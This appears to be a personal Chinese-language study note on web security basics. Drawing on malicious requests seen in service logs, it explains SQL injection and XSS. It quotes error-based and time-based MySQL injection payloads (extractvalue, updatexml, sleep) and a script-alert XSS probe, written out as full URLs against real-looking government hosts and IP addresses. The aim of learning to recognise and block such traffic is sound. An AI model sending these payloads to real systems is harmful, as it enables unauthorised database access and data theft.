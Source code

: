 # Web安全基础学习


首先说下自己并不是专门做安全的，此次总结也确实是工作中遇到了这类问题需要解决

当然如果你自己有过搭建服务的经历，或许会在服务的访问记录中看到各种乱七八载的访问

如果有以下情况的话，就送他一个`iptables`套餐吧

## SQL注入

> SQL注入是一种代码注入技术，用于攻击数据驱动的应用程序。 在应用程序中，如果没有做恰当的过滤，则可能使得恶意的SQL语句被插入输入字段中执行（例如将数据库内容转储给攻击者）

报错注入

- extractvalue(1, concat(0x5c,(select user())))
- updatexml(0x3a,concat(1,(select user())),1)

```
http://ns2.stats.gov.cn/comment/api/index.php?gid=1&page=2&rlist%5B%5D=%40%60%27%60%2C+extractvalue%281%2C+concat_ws%280x20%2C+0x5c%2C%28select+md5%28202072102%29%29%29%29%2C%40%60%27%60

http://14.29.113.88:9292/api/sms_check.php?param=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28SELECT+MD5%281234%29%29%2C0x7e%29%2C1%29--+
```

数据路检测（mysql）

- sleep：sleep(1) 让sql运行多少秒
- 字符串连接：SELECT CONCAT(’some‘, 'string')
- 报错注入：convert(int, (db_name()))
- 等等

```
http://218.13.13.90:8081/fsGovPlatform/js/(select(0)from(select(sleep(34)))v)%2f*'+(select(0)from(select(sleep(34)))v)+'""+(select(0)from(select(sleep(34)))v)+""*%2f/timepicker/jquery-ui-timepicker-addon.js

http://210.76.74.50/faq.php?action=grouppermission&gids%5B100%5D%5B0%5D=%29+and+%28select+1+from+%28select+count%28%2A%29%2Cconcat%28%28select+concat%28user%2C0x3a%2Cmd5%281234%29%2C0x3a%29+from+mysql.user+limit+0%2C1%29%2Cfloor%28rand%280%29%2A2%29%29x+from+information_schema.tables+group+by+x%29a%29%23&gids%5B99%5D=%27

http://xwrz.huizhou.gov.cn/invest-client/rzcs/index.html?assureType=123456&minBalance=convert%28int%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%271078491144%27%29%29%29&moneyrateStart=123456&type=123456
```

## XSS

> XSS全称为Cross Site Scripting，为了和CSS分开简写为XSS，中文名为跨站脚本。该漏洞发生在用户端，是指在渲染过程中发生了不在预期过程中的JavaScript代码执行。XSS通常被用于获取Cookie、以受攻击者的身份进行操作等行为

```
# 特征
<script src="..."></script>

http://qqt.gdqy.gov.cn/tomcat-docs/appdev/sample/web/hello.jsp?test=<script>alert(12345)</script>
```
